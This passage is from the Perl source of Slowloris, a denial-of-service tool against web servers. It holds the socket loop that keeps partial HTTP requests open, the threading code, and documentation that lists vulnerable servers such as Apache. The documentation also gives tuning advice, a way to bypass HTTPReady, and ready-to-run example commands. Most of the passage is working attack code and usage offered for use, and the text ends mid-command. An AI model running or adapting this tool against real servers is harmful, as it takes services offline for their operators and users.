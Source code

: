 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"                       . "Content-Length: 42\r\n";                     my $handle = $sock[$z];                     if ($handle) {                         print $handle "$primarypayload";                         if ( $SIG{__WARN__} ) {                             $working[$z] = 0;                             close $handle;                             $failed++;                             $failedconnections++;                         }                         else {                             $packetcount++;                             $working[$z] = 1;                         }                     }                     else {                         $working[$z] = 0;                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     $failed++;                     $failedconnections++;                 }             }         }         print "\t\tSending data.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 1 ) {                 if ( $sock[$z] ) {                     my $handle = $sock[$z];                     if ( print $handle "X-a: b\r\n" ) {                         $working[$z] = 1;                         $packetcount++;                     }                     else {                         $working[$z] = 0;                         #debugging info                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     #debugging info                     $failed++;                     $failedconnections++;                 }             }         }         print "Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";         sleep($timeout);     } }  sub domultithreading {     my ($num) = @_;     my @thrs;     my $i                    = 0;     my $connectionsperthread = 50;     while ( $i &lt; $num ) {         $thrs[$i] =           threads->create( \&amp;doconnections, $connectionsperthread, 1 );         $i += $connectionsperthread;     }     my @threadslist = threads->list();     while ( $#threadslist > 0 ) {         $failed = 0;     } }  __END__  =head1 TITLE  Slowloris  =head1 VERSION  Version 0.7 Beta  =head1 DATE  06/17/2009  =head1 AUTHOR  RSnake &lt;h@ckers.org> with threading from John Kinsella  =head1 ABSTRACT  Slowloris both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.  =head1 AFFECTS  Apache 1.x, Apache 2.x, dhttpd, GoAhead WebServer, others...?  =head1 NOT AFFECTED  IIS6.0, IIS7.0, lighttpd, nginx, Cherokee, Squid, others...?  =head1 DESCRIPTION  Slowloris is designed so that a single machine (probably a Linux/UNIX machine since Windows appears to limit how many sockets you can have open at any given time) can easily tie up a typical web server or proxy server by locking up all of it's threads as they patiently wait for more data.  Some servers may have a smaller tolerance for timeouts than others, but Slowloris can compensate for that by customizing the timeouts.  There is an added function to help you get started with finding the right sized timeouts as well.  As a side note, Slowloris does not consume a lot of resources so modern operating systems don't have a need to start shutting down sockets when they come under attack, which actually in turn makes Slowloris better than a typical flooder in certain circumstances.  Think of Slowloris as the HTTP equivalent of a SYN flood.  =head2 Testing  If the timeouts are completely unknown, Slowloris comes with a mode to help you get started in your testing:  =head3 Testing Example:  ./slowloris.pl -dns www.example.com -port 80 -test  This won't give you a perfect number, but it should give you a pretty good guess as to where to shoot for.  If you really must know the exact number, you may want to mess with the @times array (although I wouldn't suggest that unless you know what you're doing).  =head2 HTTP DoS  Once you find a timeout window, you can tune Slowloris to use certain timeout windows.  For instance, if you know that the server has a timeout of 3000 seconds, but the the connection is fairly latent you may want to make the timeout window 2000 seconds and increase the TCP timeout to 5 seconds.  The following example uses 500 sockets.  Most average Apache servers, for instance, tend to fall down between 400-600 sockets with a default configuration.  Some are less than 300.  The smaller the timeout the faster you will consume all the available resources as other sockets that are in use become available - this would be solved by threading, but that's for a future revision.  The closer you can get to the exact number of sockets, the better, because that will reduce the amount of tries (and associated bandwidth) that Slowloris will make to be successful.  Slowloris has no way to identify if it's successful or not though.  =head3 HTTP DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5  =head2 HTTPReady Bypass  HTTPReady only follows certain rules so with a switch Slowloris can bypass HTTPReady by sending the attack as a POST verses a GET or HEAD request with the -httpready switch.   =head3 HTTPReady Bypass Example  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000